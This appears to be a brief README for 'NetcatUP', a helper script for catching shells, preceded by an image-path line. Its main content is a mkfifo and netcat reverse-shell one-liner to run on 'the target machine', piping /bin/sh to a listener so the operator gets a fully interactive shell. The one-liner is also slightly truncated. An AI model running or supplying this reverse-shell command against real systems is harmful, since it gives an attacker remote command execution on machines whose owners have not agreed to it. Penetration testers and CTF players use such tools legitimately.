 # NetcatUP


run `./netcatup.sh port`  
run `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 5555 >/tmp/` on the target machine
You should now have a fully interactive shell with bash history and tab completion  

credits: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

